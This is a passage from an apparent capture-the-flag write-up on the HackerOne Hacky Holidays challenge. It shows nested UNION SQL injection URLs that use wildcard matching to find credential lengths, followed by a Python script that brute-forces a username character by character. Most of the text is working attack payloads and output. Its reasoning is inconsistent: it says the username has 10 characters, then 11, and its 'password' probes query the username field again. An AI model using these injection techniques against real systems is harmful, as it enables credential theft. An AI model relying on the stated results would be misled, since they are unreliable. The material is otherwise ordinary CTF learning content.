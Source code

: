 In this case, we can use sql wildcard character (% , _ ) to enumerate username and password.Let's see how it works.

Firstly , let's confrim how many length has username and password.

```
https://hackyholidays.h1ctf.com/r3c0n_server_4fdk59/album?hash=lol ' UNION SELECT "1' union select \"1\",\"2\",\"../api/user?username=__________%\"--+-","2","3"--+-  ( 10 underscores )

Expected HTTP status 200, Received: 204

https://hackyholidays.h1ctf.com/r3c0n_server_4fdk59/album?hash=lol ' UNION SELECT "1' union select \"1\",\"2\",\"../api/user?username=___________%\"--+-","2","3"--+-  ( 11 underscores )

Invalid content type detected

https://hackyholidays.h1ctf.com/r3c0n_server_4fdk59/album?hash=lol ' UNION SELECT "1' union select \"1\",\"2\",\"../api/user?username=____________%\"--+-","2","3"--+-  ( 12 underscores )

Expected HTTP status 200, Received: 204

OK so username has 10 characters, let's see about passoword

https://hackyholidays.h1ctf.com/r3c0n_server_4fdk59/album?hash=lol ' UNION SELECT "1' union select \"1\",\"2\",\"../api/user?username=__________%\"--+-","2","3"--+-  ( 10 underscores )

Invalid content type detected

https://hackyholidays.h1ctf.com/r3c0n_server_4fdk59/album?hash=lol ' UNION SELECT "1' union select \"1\",\"2\",\"../api/user?username=___________%\"--+-","2","3"--+-  ( 11 underscores )

Expected HTTP status 200, Received: 204
```
Now we're able to identify that username has 11 characters and password has 10 characters.
In order to extract username and password, I made a lazy script to automate these steps.

```
#!/usr/bin/python3
import requests
from urllib.request import urlopen
from bs4 import BeautifulSoup
import string
import numpy as np

alphabet = list(string.ascii_lowercase)
number = list(range(0,10))
fuzz = np.concatenate((alphabet,number))
username = ""
while len(username) < 11:
	for i in fuzz:
		i = username + i
		payload = "lol%20%27%20UNION%20SELECT%20%221%27%20union%20select%20\%221\%22,\%222\%22,\%22../api/user?username={}%\%22--+-%22,%222%22,%223%22--+-".format(i)
		url = "https://hackyholidays.h1ctf.com/r3c0n_server_4fdk59/album?hash={}".format(payload)
		req = urlopen(url)
		bs = BeautifulSoup(req.read(), 'html.parser')
		response = bs.find_all('img',class_='img-responsive')
		img_data = response[2]
		sec_req =requests.get("https://hackyholidays.h1ctf.com"+img_data['src'])
		response_txt = sec_req.text
		if "Invalid content type detected" not in response_txt:
			continue
		else:
			username = username + i[-1]
			print("Found valid character: "+i)
```
